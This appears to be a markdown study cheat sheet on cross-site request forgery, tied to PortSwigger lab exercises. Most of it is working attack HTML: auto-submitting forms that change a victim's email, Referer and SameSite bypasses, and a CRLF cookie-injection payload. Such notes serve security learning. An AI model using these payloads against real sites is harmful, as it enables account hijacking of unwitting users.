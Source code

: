 ## Cross-site request forgery

## CSRF vulnerabilities work when:

- User is Authenticated;
- SameSite=None - allows them to be sent on cross-site requests;

### CSRF does not work when:

- CSRF Tokens are Present;
- Same-Site Cookies are Enabled: With SameSite cookie policy (e.g., SameSite=Lax or Strict), cookies are only sent on requests originating from the same domain;
- Referrer Check: Some sites check the Referer header to confirm requests are from their own pages;
- Origin header (sometimes) - If the site rejects requests without them, it likely relies on header-based protection.

### Standard GET CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF with new inputs:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" />
<input type="hidden" name="csrf" value="SDGDSGHRTG$rewt65RT$T4t45" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### POST CSRF with NoREFFER header:
```
<html>
<head>
<title>CSRF Exploit </title>
  <meta name="referrer" content="no-referrer">
</head>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@err.net" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```


```
<html>
<head>
  <title>CSRF Exploit </title>
</head>
<script>history.pushState("", "", "/?0a2b00a103d9639280702748000e0044.web-security-academy.net")</script>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwn234@gmail.com" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
## ByPass Restrictions:

### CSRF:

1) Just delete **csrf** parameter from request.
2) Make a note of the value of the **CSRF** token, then drop the request this is a single-use, so you'll need to include a fresh one.
3) CSRF where token is tied to non-session cookie:
   
   Changing the session cookie logs you out; and
   Changing the csrfKey cookie merely results in the CSRF token being rejected.

   https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

4) CSRF where token is duplicated in cookie (and if the search term gets reflected in the Set-Cookie header) :

  Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:
  ```
  /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
  ```
  
  Remove the auto-submit <script> block from **Standard CSRF** and instead add the following code to inject the cookie and submit the form:
  ```
  <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  ```

  https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

### Headers

```
<meta name="referrer" content="no-referrer">  //in head section

Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net  //in head section

history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")

Referrer-Policy: unsafe-url  //in head section

### SameSite (if does not contains unpredictible tokens):
```

#### 1) SameSite=Lax:

  Send the POST /my-account/change-email request to Burp Repeater.
  Change request method.
  Try overriding the method by adding the _method parameter:
  ```
  <script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
  </script>
  ```

#### 2) SameSite=Strict:

  ```
  <script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
  </script>
  ```
  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect
  
#### 3) Other :

  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain

  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh
